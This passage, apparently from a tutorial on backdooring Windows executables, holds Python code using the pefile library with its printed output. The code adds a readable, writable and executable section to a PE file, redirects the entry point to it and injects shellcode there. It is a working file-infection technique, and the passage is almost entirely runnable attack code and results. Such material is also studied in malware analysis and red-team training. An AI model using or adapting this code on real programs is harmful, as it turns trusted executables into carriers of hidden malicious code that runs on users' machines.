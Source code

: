 ```python
pe.set_dword_at_offset(new_section_offset + 20, raw_offset)
print "\t[+] Raw Offset = %s" % hex(raw_offset)
# Set the following fields to zero
pe.set_bytes_at_offset(new_section_offset + 24, (12 * '\x00'))
# Set the characteristics
pe.set_dword_at_offset(new_section_offset + 36, characteristics)
print "\t[+] Characteristics = %s\n" % hex(characteristics)

# STEP 0x03 - Modify the Main Headers
print "[*] STEP 0x03 - Modify the Main Headers"
pe.FILE_HEADER.NumberOfSections += 1
print "\t[+] Number of Sections = %s" % pe.FILE_HEADER.NumberOfSections
pe.OPTIONAL_HEADER.SizeOfImage = virtual_size + virtual_offset
print "\t[+] Size of Image = %d bytes" % pe.OPTIONAL_HEADER.SizeOfImage

pe.write(exe_path)

pe = pefile.PE(exe_path)
number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
new_ep = pe.sections[last_section].VirtualAddress
print "\t[+] New Entry Point = %s" % hex(pe.sections[last_section].VirtualAddress)
oep = pe.OPTIONAL_HEADER.AddressOfEntryPoint
print "\t[+] Original Entry Point = %s\n" % hex(pe.OPTIONAL_HEADER.AddressOfEntryPoint)
pe.OPTIONAL_HEADER.AddressOfEntryPoint = new_ep

# STEP 0x04 - Inject the Shellcode in the New Section
print "[*] STEP 0x04 - Inject the Shellcode in the New Section"

raw_offset = pe.sections[last_section].PointerToRawData
pe.set_bytes_at_offset(raw_offset, shellcode)
print "\t[+] Shellcode wrote in the new section"

pe.write(exe_path)
```

**Output**

```bash
[*] STEP 0x01 - Resize the Executable
	[+] Original Size = 531368
	[+] New Size = 539560 bytes

[*] STEP 0x02 - Add the New Section Header
	[+] Section Name = .axc    
	[+] Virtual Size = 0x1000
	[+] Virtual Offset = 0x84000
	[+] Raw Size = 0x1000
	[+] Raw Offset = 0x80000
	[+] Characteristics = 0xe0000020L

[*] STEP 0x03 - Modify the Main Headers
	[+] Number of Sections = 5
	[+] Size of Image = 544768 bytes
	[+] New Entry Point = 0x84000
	[+] Original Entry Point = 0x550f0

[*] STEP 0x04 - Inject the Shellcode in the New Section
	[+] Shellcode wrote in the new section
```
